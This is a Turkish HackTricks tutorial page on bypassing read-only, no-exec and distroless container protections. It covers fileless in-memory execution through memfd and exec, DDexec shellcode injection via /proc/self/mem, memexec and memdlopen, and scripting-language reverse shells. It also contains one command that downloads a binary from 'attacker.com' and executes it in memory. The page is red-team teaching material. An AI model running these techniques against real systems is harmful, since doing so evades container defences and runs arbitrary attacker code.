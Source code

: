 # FS korumalarını atlatma: salt okunur / no-exec / Distroless

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin (https://peass.creator-spring.com)
* [**The PEASS Ailesi**]'ni keşfedin (https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**]'in koleksiyonu
* **Katılın** 💬 [**Discord grubumuza**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking hilelerinizi paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı açıklanmış şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlice ve Kaçınma için Linux Bellek Manipülasyonu Keşfi**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizlice Sızma - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## salt okunur / no-exec senaryosu

Özellikle konteynerlerde **salt okunur (ro) dosya sistemi koruması** ile donatılmış Linux makinelerini bulmak artık daha yaygın hale gelmektedir. Bu, salt okunur dosya sistemiyle bir konteyner çalıştırmak için **`readOnlyRootFilesystem: true`**'yi `securitycontext` içinde ayarlamak kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlanmış olsa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu nedenle diske bir şey yazamayacağımızı düşünmek yanıltıcı olacaktır. Bununla birlikte, bu klasör **no-exec koruması ile bağlanacaktır**, bu nedenle buraya bir ikili dosya indirirseniz, onu **çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan (arka kapılar veya `kubectl` gibi) ikili dosyaları **indirip çalıştırmayı karmaşık hale getirir**.
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları belirttiğimi unutmayın, **yürütülebilir herhangi bir betik**'i, yorumlayıcının makinede olması koşuluyla yürütebilirsiniz, yani `sh` mevcutsa bir **kabuk betiği** veya `python` yüklüyse bir **python betiği** gibi.

Ancak, bu, ikili arka kapınızı veya çalıştırmanız gerekebilecek diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Atlatmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **bellekten çalıştırmaktır**, çünkü **korumalar orada uygulanmaz**.

### FD + exec syscall atlatma

Makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorlarına sahipseniz, ikili dosyayı bellekten çalıştırmak için indirebilir, onu bir bellek dosya tanımlayıcısında saklayabilirsiniz (`create_memfd` syscall), bu korumalar tarafından korunmayacak ve ardından bir **`exec` syscall**'ı çağırarak **fd'yi çalıştırılacak dosya olarak belirtebilirsiniz**.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirerek, onu **b64 kodlanmış ve sıkıştırılmış** bir şekilde içeren bir betik oluşturacak ve `create_memfd` syscall'ı çağırarak oluşturulan bir **fd** içinde **ikiliyi çözümlemek ve sıkıştırmak** için talimatlarla birlikte belirtilen dilde bir betik oluşturacaktır ve onu çalıştırmak için **exec** syscall'ı çağırır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bunlar bir betikten **ham syscalls** çağırmak için herhangi bir **varsayılan yol**a sahip değildir, bu nedenle `create_memfd`'yi çağırmak için **bellek fd**'si oluşturulamaz.

Ayrıca, `/dev/shm` içinde bir dosya ile bir **düzenli fd** oluşturmak çalışmayacaktır, çünkü **no-exec koruması** uygulanacağından çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işleminizin **`/proc/self/mem`**'ini üzerine yazarak **belleğinizi değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından yürütülen derleme kodunu kontrol ederek, bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu çalıştırmak üzere "mutasyona uğratabilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu yüklemenize ve **bellekten herhangi bir ikili dosyayı çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. Herhangi bir farklı ikili dosyayı çalıştırmak istediğinizde DDexec'i yeniden başlatmanıza gerek kalmaz, sadece memexec shellcode'unu DDexec tekniği aracılığıyla çalıştırabilir ve ardından bu deamon ile iletişim kurarak yeni ikili dosyaları yükleyip çalıştırabilirsiniz.

PHP ters kabuk kullanarak **memexec'i kullanmanın bir örneğini** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec'e benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları çalıştırmak için belleğe ikili dosyaları yüklemenin daha kolay bir yolunu sağlar. Bağımlılıkları olan ikili dosyaları bile yüklemeyi mümkün kılabilir.

## Distroless Atlatma

### Distroless Nedir

Distroless konteynerler, yalnızca belirli bir uygulamayı veya hizmeti çalıştırmak için gerekli olan en temel bileşenleri içerir; kütüphaneler ve çalışma zamanı bağımlılıkları gibi, ancak bir paket yöneticisi, kabuk veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak ve sömürülebilecek güvenlik açıklarının sayısını en aza indirmektir.

### Ters Kabuk

Distroless konteynerlerde genellikle düzenli bir kabuk almak için `sh` veya `bash` bulamayabilirsiniz. Ayrıca, genellikle bir sistemde çalıştırdığınız `ls`, `whoami`, `id` gibi ikili dosyaları da bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle yaptığınız gibi bir **ters kabuk alamayacak** veya **sistemde numaralandıramayacaksınız**.
{% endhint %}

Ancak, ele geçirilen konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters kabuk** alabilirsiniz. Node çalıştırıyorsa, bir Node ters kabuk alabilirsiniz ve aynı şekilde çoğu **betik dili** ile yapabilirsiniz.

{% hint style="success" %}
Betik dili kullanarak dilin yeteneklerini kullanarak **sistemi numaralandırabilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak **ikili dosyalarınızı dosya sistemine yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunacaktır, ancak bunları atlatmak için **önceki bellek yürütme tekniklerini kullanabilirsiniz**.
{% endhint %}

**RCE zafiyetlerini kullanarak betik dilleri ile ters kabuk almak ve bellekten ikili dosyaları çalıştırmak** için **örnekler** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulunabilir.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek veya HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da takip edin 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking püf noktalarınızı göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github depolarına PR'lar göndererek destek olun.

</details>
